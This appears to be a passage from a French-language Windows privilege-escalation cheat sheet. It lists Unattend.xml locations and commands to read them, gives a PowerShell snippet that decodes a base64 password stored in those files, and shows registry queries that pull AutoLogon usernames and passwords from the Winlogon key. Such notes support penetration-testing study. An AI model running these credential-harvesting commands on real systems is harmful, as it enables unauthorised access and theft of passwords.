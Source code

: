 
## 📁 3. Fichiers Unattend.xml

### Emplacements possibles d'Unattend.xml
| Chemin | Description |
|--------|-------------|
| `C:\Windows\Panther\Unattend.xml` | Emplacement principal |
| `C:\Windows\Panther\Unattended.xml` | Variante du nom |
| `C:\Windows\System32\sysprep\unattend.xml` | Dossier sysprep |
| `C:\Windows\System32\sysprep\Panther\unattend.xml` | Panther dans sysprep |

### Lecture et décodage d'Unattend.xml
| Étape | Commande |
|-------|----------|
| **Localiser le fichier** | `dir C:\Windows\Panther\*.xml` |
| **Lire le contenu** | `cat C:\Windows\Panther\Unattend.xml` |
| **Décoder base64** | `$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("QWRtaW5AMTIz"))` |
| **Afficher résultat** | `echo $password` |

### Exemple de décodage PowerShell
```powershell
# Décoder un password base64 trouvé dans Unattend.xml
$password='QWRtaW5AMTIz'
$decoded=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $decoded
# Résultat: Admin@123
```

---

## 🗝️ 4. Registry - AutoLogon Credentials

### Recherche d'AutoLogon credentials
| Registre | Commande |
|----------|----------|
| **AutoLogon principal** | `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"` |
| **Utilisateur par défaut** | `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName` |
| **Mot de passe** | `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword` |
| **Domaine** | `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName` |

### PowerShell pour AutoLogon
```powershell
# Recherche complète AutoLogon
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" | Select-Object DefaultUserName,DefaultPassword,DefaultDomainName
```

---